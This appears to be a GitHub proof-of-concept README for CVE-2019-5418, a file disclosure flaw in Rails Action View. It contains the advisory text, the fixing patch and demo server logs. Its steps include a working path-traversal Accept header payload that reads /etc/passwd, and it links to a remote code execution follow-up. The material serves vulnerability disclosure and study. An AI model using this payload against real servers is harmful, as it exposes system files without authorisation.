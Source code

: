 # CVE-2019-5418 - File Content Disclosure on Rails

**EDIT**: this CVE can lead to a Remote Code Execution, more info: https://github.com/mpgn/Rails-doubletap-RCE

> There is a possible file content disclosure vulnerability in Action View. 
Specially crafted accept headers in combination with calls to `render file:` 
can cause arbitrary files on the target server to be rendered, disclosing the 
file contents. 

> The impact is limited to calls to `render` which render file contents without 
a specified accept format.  Impacted code in a controller looks something like 
this: 

found by [John Hawthorn](https://twitter.com/jhawthorn) from GitHub

![image](https://user-images.githubusercontent.com/5891788/54474938-95f10c80-47eb-11e9-9a7c-8fa7c72ccd9e.png)

**Technical Analysis**: 
- https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/

**Security Advisory**:
- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q

Fixed in Action View 6.0.0.beta3, 5.2.2.1, 5.1.6.2, 5.0.7.2, 4.2.11.1 

```diff
From f4c70c2222180b8d9d924f00af0c7fd632e26715 Mon Sep 17 00:00:00 2001
From: John Hawthorn <john@hawthorn.email>
Date: Mon, 4 Mar 2019 18:24:51 -0800
Subject: [PATCH] Only accept formats from registered mime types

[CVE-2019-5418]
[CVE-2019-5419]
---
 .../lib/action_dispatch/http/mime_negotiation.rb   |  5 +++++
 actionpack/test/controller/mime/respond_to_test.rb | 10 ++++++----
 .../new_base/content_negotiation_test.rb           | 14 ++++++++++++--
 3 files changed, 23 insertions(+), 6 deletions(-)

diff --git a/actionpack/lib/action_dispatch/http/mime_negotiation.rb b/actionpack/lib/action_dispatch/http/mime_negotiation.rb
index 498b1e669576..4e81ba12a58b 100644
--- a/actionpack/lib/action_dispatch/http/mime_negotiation.rb
+++ b/actionpack/lib/action_dispatch/http/mime_negotiation.rb
@@ -79,6 +79,11 @@ def formats
           else
             [Mime[:html]]
           end
+
+          v = v.select do |format|
+            format.symbol || format.ref == "*/*"
+          end
+
           set_header k, v
         end
       end
```

___

### Proof Of Concept

1. Run the vulnerable application inside the demo folder:

```console
foo@bar:~$ cd demo/
foo@bar:~$ bundle install
[...]
foo@bar:~$ rails s                                                                                                                12:59:54
=> Booting Puma
=> Rails 5.2.1 application starting in development 
=> Run `rails server -h` for more startup options
Puma starting in single mode...
* Version 3.12.0 (ruby 2.5.1-p57), codename: Llamas in Pajamas
* Min threads: 5, max threads: 5
* Environment: development
* Listening on tcp://0.0.0.0:3000
Use Ctrl-C to stop
Started GET "/" for 127.0.0.1 at 2019-03-16 13:00:00 +0100
Processing by Rails::WelcomeController#index as HTML
  Rendering /var/lib/gems/2.5.0/gems/railties-5.2.1/lib/rails/templates/rails/welcome/index.html.erb
  Rendered /var/lib/gems/2.5.0/gems/railties-5.2.1/lib/rails/templates/rails/welcome/index.html.erb (1.4ms)
Completed 200 OK in 8ms (Views: 2.7ms | ActiveRecord: 0.0ms)


Started GET "/chybeta" for 127.0.0.1 at 2019-03-16 13:00:03 +0100
Processing by ChybetaController#index as HTML
  Rendering README.md within layouts/application
  Rendered README.md within layouts/application (0.2ms)
Completed 200 OK in 122ms (Views: 121.1ms | ActiveRecord: 0.0ms)
```

2. Go to the route `/chybeta`
3. Intercept with burp the request and replace the `Accept` header with `Accept: ../../../../../../../../../../etc/passwd{{`

![image](https://user-images.githubusercontent.com/5891788/54473502-fd519100-47d8-11e9-83f9-91abf2e9e2e0.png)


![image](https://user-images.githubusercontent.com/5891788/54474938-95f10c80-47eb-11e9-9a7c-8fa7c72ccd9e.png)


